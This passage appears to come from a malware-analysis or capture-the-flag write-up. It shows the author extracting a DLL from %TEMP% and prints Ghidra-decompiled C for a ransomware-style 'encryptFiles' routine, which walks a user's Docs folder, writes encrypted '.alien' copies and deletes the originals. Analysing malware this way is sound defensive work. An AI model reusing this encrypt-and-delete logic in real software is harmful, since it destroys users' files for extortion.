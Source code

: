 And we can get the dll path:

![dllpath.JPG](images/dllpath.JPG)

Ok, So let's get the dll from %TEMP%.

By decompiled the dll using Ghidra we can see the function ```encryptFiles``` which called from executable:
```c
void encryptFiles(char *param_1)

{
  BOOL BVar1;
  HANDLE hFindFile;
  undefined auStack13488 [32];
  DWORD local_3490 [4];
  byte local_3480;
  WCHAR local_3454;
  WCHAR local_3452;
  WCHAR local_3450;
  WCHAR local_3228 [264];
  WCHAR local_3018 [2048];
  WCHAR local_2018 [2048];
  WCHAR local_1018 [2048];
  ulonglong local_18;
  undefined8 local_10;
  
                    /* 0x1010  1  encryptFiles */
  local_10 = 0x18000102d;
  local_18 = DAT_180004008 ^ (ulonglong)auStack13488;
  local_3490[0] = 0x101;
  GetUserNameW(local_3228,local_3490);
  memset(local_2018,0,0x1000);
  wsprintfW(local_2018,L"C:\\Users\\%s\\Docs");
  wsprintfW(local_3018,L"%s\\*.*");
  hFindFile = FindFirstFileW(local_3018,(LPWIN32_FIND_DATAW)&local_3480);
  if (hFindFile != (HANDLE)0xffffffffffffffff) {
    do {
      if (((local_3454 != L'.') || (local_3452 != L'\0')) &&
         ((local_3454 != L'.' || ((local_3452 != L'.' || (local_3450 != L'\0')))))) {
        wsprintfW(local_3018,L"%s\\%s");
        wsprintfW(local_1018,L"%s.alien");
        if ((local_3480 & 0x10) == 0) {
          FUN_1800011c0(local_3018,local_1018,param_1);
          _wremove(local_3018);
        }
      }
      BVar1 = FindNextFileW(hFindFile,(LPWIN32_FIND_DATAW)&local_3480);
    } while (BVar1 != 0);
    FindClose(hFindFile);
  }
  FUN_180001520(local_18 ^ (ulonglong)auStack13488);
  return;
}
```
